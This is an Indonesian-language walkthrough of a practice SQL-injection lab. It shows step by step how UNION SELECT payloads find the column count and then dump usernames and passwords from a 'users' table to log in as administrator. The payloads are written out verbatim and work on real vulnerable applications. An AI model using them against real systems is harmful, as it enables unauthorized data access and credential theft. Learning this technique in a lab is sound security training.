


# SQL Injection UNION attack, retrieving data from other tables

---

## Challenge Overview

**Title:** SQL Injection UNION attack, retrieving data from other tables
**Category:** Injection (SQLi)

Lab ini meminta kita untuk mengeksploitasi **SQL Injection** melalui filter kategori produk, lalu menggunakan teknik **UNION SELECT** untuk mengekstrak data sensitif dari tabel lain. Target kita adalah tabel `users` yang berisi **username** dan **password**. Untuk menyelesaikan lab, kita harus login sebagai **administrator** menggunakan kredensial yang berhasil didapat.

---

## Tools Used

* **Burp Suite** → untuk intercept & modifikasi request kategori produk.
* **Web Browser** → untuk login dengan hasil kredensial.

---

## Step by Step Solution

### 1. Identifikasi jumlah kolom

Kirimkan payload sederhana untuk uji jumlah kolom:

```sql
'+UNION+SELECT+NULL--        → error
'+UNION+SELECT+NULL,NULL--   → berhasil
```


---

### 2. Uji kolom yang bisa menampilkan string

Kita coba masukkan string ke tiap kolom:

```sql
'+UNION+SELECT+'abc','def'--
```

* Hasil: query berjalan dan string `abc` serta `def` muncul di halaman → berarti **kedua kolom kompatibel dengan string**.

---

### 3. Ekstrak data dari tabel `users`

Gunakan payload untuk menampilkan isi tabel `users`:

```sql
'+UNION+SELECT+username,password+FROM+users--
```

* Hasil: halaman menampilkan daftar username dan password dari database.

---

### 4. Login sebagai administrator

* Temukan entri dengan `username = administrator`.
* Catat `password` yang terkait.

    
* Gunakan kredensial tersebut di halaman login aplikasi.
    
* Setelah berhasil login sebagai **administrator**, lab otomatis **Solved** 
    
